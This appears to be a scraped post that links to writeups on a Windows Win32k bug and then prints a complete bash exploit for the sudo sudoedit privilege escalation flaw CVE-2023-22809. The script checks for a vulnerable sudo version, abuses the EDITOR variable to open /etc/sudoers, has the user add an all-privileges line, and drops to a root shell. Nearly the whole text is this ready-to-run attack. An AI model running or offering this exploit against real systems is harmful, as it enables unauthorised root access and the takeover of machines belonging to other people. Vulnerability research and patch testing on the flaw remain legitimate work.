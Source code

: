 [https://www.numencyber.com/cve-2023-2933...-analysis/](https://www.numencyber.com/cve-2023-29336-win32k-analysis/)  
  
[https://www.bleepingcomputer.com/news/se...n-attacks/](https://www.bleepingcomputer.com/news/security/poc-released-for-windows-win32k-bug-exploited-in-attacks/)






Exploit Title: sudo 1.8.0 - 1.9.12p1 - Privilege Escalation  
Tested on: Ubuntu Server 22.04 - vim 8.2.4919 - sudo 1.9.9  
  

  

  
usage:  
bash exploit.sh  
  

Code:

`#!/usr/bin/env bash   #   # Exploit Title: sudo 1.8.0 - 1.9.12p1 - Privilege Escalation   #   # Exploit Author: n3m1.sys   # CVE: CVE-2023-22809   # Date: 2023/01/21   # Vendor Homepage: https://www.sudo.ws/   # Software Link: https://www.sudo.ws/dist/sudo-1.9.12p1.tar.gz   # Version: 1.8.0 to 1.9.12p1   # Tested on: Ubuntu Server 22.04 - vim 8.2.4919 - sudo 1.9.9   #   # Running this exploit on a vulnerable system allows a localiattacker to gain   # a root shell on the machine.   #   # The exploit checks if the current user has privileges to run sudoedit or   # sudo -e on a file as root. If so it will open the sudoers file for the   # attacker to add a line to gain privileges on all the files and get a root   # shell.      if ! sudo --version | head -1 | grep -qE '(1\.8.*|1\.9\.[0-9]1?(p[1-3])?|1\.9\.12p1)$'   then       echo "> Currently installed sudo version is not vulnerable"       exit 1   fi      EXPLOITABLE=$(sudo -l | grep -E "sudoedit|sudo -e" | grep -E '\(root\)|\(ALL\)|\(ALL : ALL\)' | cut -d ')' -f 2-)      if [ -z "$EXPLOITABLE" ]; then       echo "> It doesn't seem that this user can run sudoedit as root"       read -p "Do you want to proceed anyway? (y/N): " confirm && [[ $confirm == [yY] ]] || exit 2   else       echo "> BINGO! User exploitable"   fi      echo "> Opening sudoers file, please add the following line to the file in order to do the privesc:"   echo "$USER ALL=(ALL:ALL) ALL"   read -n 1 -s -r -p "Press any key to continue..."   EDITOR="vim -- /etc/sudoers" $EXPLOITABLE   sudo su root   exit 0`




